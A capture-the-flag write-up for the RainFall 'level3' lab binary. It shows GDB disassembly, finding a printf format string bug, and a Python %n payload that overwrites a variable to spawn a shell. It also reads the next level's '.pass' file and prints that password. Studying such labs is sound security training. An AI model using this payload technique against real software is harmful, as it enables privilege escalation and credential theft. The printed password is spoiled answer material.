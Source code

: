 # Level3 Exploit

## Steps

### 1. Decompile the Binary

Use GDB to disassemble the `main` and `v` functions:

```bash
level3@RainFall:~$ gdb level3
(gdb) disassemble main
(gdb) disassemble v
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

### 2. Check Available Functions

Examine the available functions to identify any potential vulnerabilities:
- The `main` function calls a function `v`.
- The `v` function contains a call to `printf` without format string specifiers, making it vulnerable to format string attacks.
- The `v` function uses an undeclared variable `m`. If `m` is set to `0x40` (64 in decimal), it will launch a shell.

### 3. Find the Variable Address

Use GDB to find the address of the variable `m`:

```bash
level3@RainFall:~$ gdb level3
(gdb) info var
```

Identify the address of `m`, for example: `0x0804988c`.

### 4. Determine Format String Offset

Determine at which position `printf` starts to write the given string. Use this input string in GDB:

```bash
level3@RainFall:~$ gdb level3
(gdb) run
(gdb) AAAAAAAAAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

You should see output similar to:

```
AAAAAAAAAAA00000200.b7fd1ac0.b7ff37d0.41414141.41414141.25414141.2e783830.78383025.3830252e
```

Here, the value `41414141` (which corresponds to `AAAA` in ASCII) appears. We find that the `printf` argument position is at the 4th position.

### 5. Create the Exploit

Now we have all the information to exploit the format string vulnerability:
- The address of `m` in little-endian format is `\x8c\x98\x04\x08`.
- We need to put the value `64` (0x40) in the 4th position of the stack preceding the `printf` call stack use.

Construct the input string using Python:

```bash
python -c 'print("\x8c\x98\x04\x08%60d%4$n")'
```

`%60d` will write 60 bytes on the standard output, and `%4$n` means to put the preceding content size (`%60d` (=60) + address string (4 length) = 64) at the fourth chunk before the `printf` stack use.

### 6. Run the Exploit

Run the exploit, keeping `stdin` open:

```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08%60d%4$n")' ; cat) | ./level3
```

Once the shell is opened, you can execute commands:

```bash
$ whoami
level4
$ cat /home/user/level4/.pass  
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

### Explanation

1. **Format String Vulnerability**: `printf` without format specifiers allows for unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of bytes printed so far to an address specified on the stack.
3. **Offset Calculation**: Determining where the format string parameters are on the stack to correctly position the address of `m`.
4. **Exploit String**: Crafted to write the desired value (`64`) to the variable `m`.